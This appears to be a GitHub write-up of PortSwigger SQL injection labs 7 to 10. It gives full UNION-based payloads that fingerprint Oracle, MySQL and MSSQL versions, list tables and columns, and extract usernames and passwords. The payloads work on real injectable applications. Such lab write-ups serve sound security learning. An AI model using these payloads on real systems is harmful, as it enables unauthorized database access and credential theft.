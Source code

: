 ## Summary
- [Lab7: SQL injection attack, querying the database type and version on Oracle](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab7-sql-injection-attack-querying-the-database-type-and-version-on-oracle)
- [Lab8: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab8-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft)
- [Lab9: SQL injection attack, listing the database contents on non-Oracle databases](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab9-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases)
- [Lab10: SQL injection attack, listing the database contents on Oracle](https://github.com/Sec0gh/Portswigger-Labs/tree/main/SQL%20Injection%20Labs/Examining%20the%20database%20in%20SQL%20injection%20attacks#lab10-sql-injection-attack-listing-the-database-contents-on-oracle)

### Lab7: SQL injection attack, querying the database type and version on Oracle
> 1. **If we will test an oracle database, we must use a `dual` special table during selecting null values because it will get an error if we selected anything even if it was the right thing for a number of columns.** 
> 2. **`dual` table used for evaluating expressions or calling functions.**
- Check out: [oracle-dual-table](https://www.oracletutorial.com/oracle-basics/oracle-dual-table/)
- Check out: [docs.oracle.com/](https://docs.oracle.com/cd/B19306_01/server.102/b14200/queries009.htm)
- We will track our methodology and test in the first the number of columns used in the query of the application:

```
category=' UNION SELECT null,null from dual--
```
- After detecting there are 2 columns, We found a column that has a string data type:

```
category=' UNION SELECT 'test',null from dual--
```
- A simple proof-of-concept test is to extract the version string of the database, which can be done on any DBMS.
- This injected query will achieve that.
```
category=' UNION SELECT banner,null from v$version--
```

![lab7.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab7.png)
- There is another way to extract the version of the oracle database.

```
category=' UNION SELECT version,null from v$instance--
```

![lab7_version.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab7_version.png)

-----------------------------------------------------------------------

### Lab8: SQL injection attack, querying the database type and version on MySQL and Microsoft
> **`Note` In MySQL syntax query you must add the space after the double dash during the comment so I suggest using URL encoding to obfuscate it when you inject your payload with `--` but also you can use `#` to comment.**
 
 - Check out: [Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

- Test the number of columns for `MySQL` or `Microsoft SQL Server` database.
```
category=' UNION SELECT null,null--
category=' UNION SELECT null,null#
```
- Test which one of them is a text column and you will find the 2 columns receive a string value.
```
category=' UNION SELECT 'test','test'-- 
category=' UNION SELECT 'test','test'#
```
- Extract the version in any column of them.
```
category=' UNION SELECT @@version,null--
category=' UNION SELECT @@version,null#
```

![lab8_space.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab8_space.png)

-----------------------------------------------------------------------

### Lab9: SQL injection attack, listing the database contents on non-Oracle databases
- To extract any data from the database, we need to know two essential things:
	1. The name of the table you will return data from.
	2. The name of columns for this table which you will select.
- But how can we do that without knowing them?
	- We can use the `information_schema` database, It is designed to hold database metadata and provide information about the database.
	- It is supported by MS-SQL, MySQL, and many other databases other than `Oracle`.
	- Now we can know the names of the database tables and columns from `information_schema`.

- Here as we used to start with testing the number of columns and their data type.
```
category=' union select null,null from information_schema.tables--
category=' union select 'test','test' from information_schema.tables--
```
- We try to selects the columns from table is called `tables`.
- So in the first, we will try to extract the names of the tables for the database.

```
category=' union select table_name,null from information_schema.tables--
```

![lab9_table_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab9_table_name.png)

- We will find an interesting table called `users_(random_characters)`, so now we can try to extract the name of columns from the `columns` table but we will identify the table name which we need to return its columns in the query.
```
category=' union select column_name,null from information_schema.columns where table_name='users_vlfwzh'--
```

![lab9_column_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab9_column_name.png)

- The query retrieved two columns, and now the last phase is extracting the data of usernames and passwords from the `users` table.
```
category=' union select username_cluojr, password_fkpkqk from users_vlfwzh--
```

![lab9.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab9.png)

-----------------------------------------------------------------------

### Lab10: SQL injection attack, listing the database contents on Oracle
- Here we will test the number of columns and their data type by using `dual` table because it is an oracle database, and if you tried to test without this table, you will get an error.

```
category=' union select null,null from dual--
category=' union select 'test','test' from dual--
```
- Oracle doesn’t support the `information_schema` but it provides `all_tables` data dictionary which we can query to list all tables in oracle.

```
category=' union select table_name,null from all_tables--
```

![lab10_table_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab10_table_name.png)

- After listing all tables, we will go to list all columns in the `users_(random_characters)` table but we will use the `all_tab_columns` table to retrieve information about columns in the database.

```
category=' union select column_name,null from all_tab_columns where table_name='USERS_ZXHNHP'--
```

![lab10_column_name.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab10_column_name.png)

- Finally, we will extract the data of usernames and passwords.

```
category=' union select USERNAME_EXOKDN, PASSWORD_YEICFS from USERS_ZXHNHP--
```

![lab10.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/SQL%20Injection%20Labs/images/lab10.png)


[I got you](https://tenor.com/view/the-batman-penguin-i-got-you-gotcha-colin-farrell-gif-26355363)
